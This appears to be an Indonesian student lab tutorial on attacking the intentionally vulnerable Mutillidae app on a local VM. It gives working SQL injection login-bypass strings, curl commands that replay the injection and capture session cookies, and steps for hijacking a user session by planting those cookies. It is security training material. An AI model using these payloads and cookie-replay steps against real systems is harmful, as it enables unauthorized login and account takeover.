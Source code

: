 Pada lesson 6 kali ini, akan menjelaskan tentang:
A. cara mengetahui isi dari suatu paket (POST) menggunakan burpsuite dan curl
B. cara masuk sebagai user / pengguna tertentu tanpa melakukan login menggunakan cookies (man in the middle attack).

A. cara mengetahui isi dari suatu paket (POST) menggunakan burpsuite dan curl

1. Buka burpsuite didalam kali linux. kemudian pilih tab proxy -> option . pastikan port 8080 atau localhost pada kolom running tercentang
![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/lesson 6/1.png "gambar1")
2. Lalu pada bagian proxy -> interception, pastikan intercept dalam kondisi off.

3. Buka browser, lalu masukkan alamat ip mutillidae: 192.168.56.101/mutillidae. kemudian pilih menu login/register

4. pada kolom nama, masukkan perintah sebagai berikut: "' or 1=1-- " (yang terdapat didalam dua petik. pastikan pada akhir -- terdapat spasi. maksud dari perintah tersebut apabila diterjemahkan dalam bahasa sql adalah sebagai berikut: SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''

5. kemudian klik login. setelah itu, kembali pada bupsuite dan masuk kebagian proxy -> history. didalam nya akan terdapat hasil proses login yang telah dilakukan tadi.

6. kemudian kembali ke browser. logout user tadi. apabila sudah logout, buka terminal. kemudian jalankan perintah sebagai berikut:

curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://192.168.56.101/mutillidae/index.php?page=login.php" > login1.txt . 

Apabila sudah, jalankan perintah:

grep "Logged In" login1.txt 

kemudian jalankan perintah: 
cat crack_cookies.txt

semua perintah diatas bertujuan untuk mengetahui user yang sedang login pada session sebelumnya.

7. sekarang untuk ujicoba yang lain, masuklah pada halaman login. pada kolom username ketikkan nama "samurai" tanpa petik. kemudian pada bagian password, klik kanan pilih insert element.

8. maka akan keluar sebuah jendela baru dibagian bawah browser anda. ganti string password dengan "text". lalu ubah size dan maxlength yang awalnya 20 menjadi 50.

9. jika sudah, tutup jendela dibawah tadi. kemudian pada kolom password masukkan text sebagai berikut:
' or (1=1 and username='samurai')-- 
jangan lupa untuk menambahkan space (spasi) setelah -- 

10. apabila sudah, tekan tombol login. kemudian masuk kedalam aplikasi burpsuite dan lihat lah pada history yang barusan anda lakukan. pilih history dengan method post. pada bagian bawah akan muncul text berisikan history yang telah dilakukan sebelumnya. simpan history tersebut didalam sebuah file txt dengan nama burp2.txt

11. jika sudah disimpan, masukklah kedalam terminal. kemudian ketik: "cd /root" . kemudian grep text burp2.txt tadi dengan perintah: "grep -i cookie burp2.txt" . kemudian dilanjutkan dengan perintah: "grep -i username burp2.txt". perintah yang dijalankan diatas bertujuan untuk mnegetahui user yang sedang login pada session sebelumnya.

12. Apabila perintah diatas sudah dijalankan, logout session yang berada didalam windows dan kembalikan pengaturan network seperti semula (tanpa proxy)

B. cara masuk sebagai user / pengguna tertentu tanpa melakukan login menggunakan cookies (man in the middle attack)

1. Sebelum melakukan man in the middle attack, terlebih dahulu harus menyiapkan cookies baru untuk dijadikan perantara. 
- hapus cookies sebelumnya dengan menggunakan perintah: rm crack_cookies.txt
- lakukan grep username pada file burp2.txt: grep -i username burp2.txt
- jalankan perintah: curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29--+&login-php-submit-button=Login" --location "http://192.168.56.101/mutillidae/index.php?page=login.php" > login2.txt
- lalu grep user yg sedang login: grep "Logged In" login2.txt
- terakhir copy isi file diatas kedalam crack_cookies: cat crack_cookies.txt

2. Jalankan cookies manager +. kemudian tambahkan cookies baru.

3. cookies pertama, beri nama PHPSESSID. kemudian isi didalamnya sesuai dengan isi tabel crack cookie baris pertama sepeti berikut:

4. cookies kedua, beri nama username. kemudian isi didalamnya sesuai dengan isi tabel crack cookie baris kedua seperti berikut:

5. cookies ketiga, beri nama dengan uid. kemudian isi didalamnya sesuai dengan isi tabel crack cookie baris ketiga seperti berikut:

6. Terakhir masuklah kedalam browser. kedian akses index.php mutillidae dengan cara: ip/mutillidae/index.php -> 192.168.56.101/mutillidae/index.php

